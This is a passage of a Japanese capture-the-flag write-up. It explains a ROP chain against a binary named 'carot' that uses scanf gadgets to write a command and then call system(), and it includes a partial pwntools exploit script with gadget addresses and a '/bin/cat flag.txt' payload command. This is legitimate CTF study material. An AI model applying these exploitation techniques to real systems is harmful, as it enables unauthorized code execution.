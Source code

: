 残すは`system`で実行したいコマンド(ここでは`"/bin/ls"や"/bin/cat <flag filename>"`)のための任意の「値」書き込み用のガジェットだが、これは頑張って探してもなかなか出てこなかったのでWriteupをカンニングした結果、`scanf`が使える事が発覚した。

`scanf("%[^\n]", buffer);`によって、改行までは`buffer`に読み込まれてROPに使われる。ここでもう一度`scanf("%[^\n]", buffer);`をすると、stdinに残っている改行コードが読まれて、特に何も`buffer`に読み込まず終わり、何の意味もなさないように思えるが、実は最初の`scanf()`の後には`getchar()`が存在し、ここで改行が食われる。よって、もう一度`scanf("%[^\n]", buffer);`を呼ぶことでROP用のペイロードの後ろに改行を挟んでくっつけたデータを読み込むことが出来る。

なお、`scanf()`は引数を2つとるので`rdi`と`rsi`用のガジェットが必要になるが、これは`pop rdi ; ret`と`pop rsi ; pop r15 ; ret`という形で存在する。

実行したいコマンドの書き込み先は先程同様にアドレスが既知のRW領域で良い。これでここのアドレスを`pop rdi ; ret`で`rdi`に設定すれば無事に`system(<cmd>)`が実行される。

## Code

※プロキシを挟まず素のバイナリでワンショット決めただけ

```python
from pwn import process, ELF, p64, remote


def dump_addrdict(d):
    for k, v in d.items():
        print(k, hex(v))


elf = ELF("./carot")
libc = ELF("./libc-2.31.so")  # same as my `Ubuntu 20.04` environment

gadgets = {
    "rdi":     0x4010d3,
    "rsi":     0x4010d1,  # pop rsi ; pop r15 ; ret
    "rbx":     0x4010ca,  # pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    "rbp":     0x400828,
    "ret":     0x4006d6,
    "aar_rax": 0x400b7d,  # mov rax, qword ptr [rbp - 8] ; add rsp, 0x10 ; pop rbp ; ret -> add rsp 0x10の処理の為にゴミが2つ必要
    "aaw_rax": 0x400cae,  # mov qword ptr [rbp - 0x30], rax ; jmp 0x400cc1 -> jmp 0x400cc6 -> add rsp, 0x30 ; pop rbp ; ret
    "add":     0x400888,  # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
    "jmp_rax": 0x400821,  # jmp rax
}

addrs = {
    "scanf": elf.plt.__isoc99_scanf,
    "libc_setbuf": libc.symbols.setbuf,
    "libc_memcmp": libc.symbols.memcmp,
    "libc_scanf": libc.symbols.__isoc99_scanf,
    "libc_getchar": libc.symbols.getchar,
    "libc_system": libc.symbols.system,
    "libc_execve": libc.symbols.execv,
    "cmd_written": 0x602100,
    "libc_written": 0x602200,
    "scanf_arg": 0x4012f0,
    "setbuf_got": elf.got.setbuf,
    "onegadgets": 0xe6e73,
}

# cmd = b"/bin/ls"
cmd = b"/bin/cat flag.txt"

dump_addrdict(addrs)

sc = process(["./carot"])
# sc = remote("localhost", 11451)
```

[^1]: 最初Full RELROを見逃してGOT Overwriteで解こうとして失敗した、昨日の問題に引っ張られ過ぎである
[^2]: 今回は`ROPgadget.py`を用いた。デフォルトだと`pop rbx`用のガジェットが出てきてくれなかったので`--depth=20`オプションを付けたら生えてきた